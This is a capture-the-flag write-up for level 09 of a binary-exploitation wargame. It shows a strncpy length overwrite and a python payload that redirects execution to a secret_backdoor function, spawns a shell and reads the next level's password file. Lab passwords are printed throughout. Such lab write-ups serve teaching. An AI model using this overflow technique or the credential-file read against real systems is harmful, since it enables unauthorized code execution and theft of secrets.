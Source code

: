 # Level 09
*password : fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S*

## Analyze

```
scp -P 4242 level09@192.168.56.109:level09 binary/
```
Interesting part:
```
strncpy(buffer, msg, buffer[180]);
```
buffer[180] is filled by username

## Buffer overflow : strncpy exploit

**objective** : execute `secret_backdoor`

```
(gdb) info funct secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
`secret_backdoor()` address : 0x000055555555488c\
- eip offset find : 200 
- `buffer[180]` : 200 + 8 = 208 (d0 in hexadecimal)

```
$ python -c 'print "\x41" * 40 + "\xd0" + "\n" + "\x41" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"' > /tmp/level09 ; cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
```
$ su end
Password: 
end@OverRide:~$ cat end
GG !
```
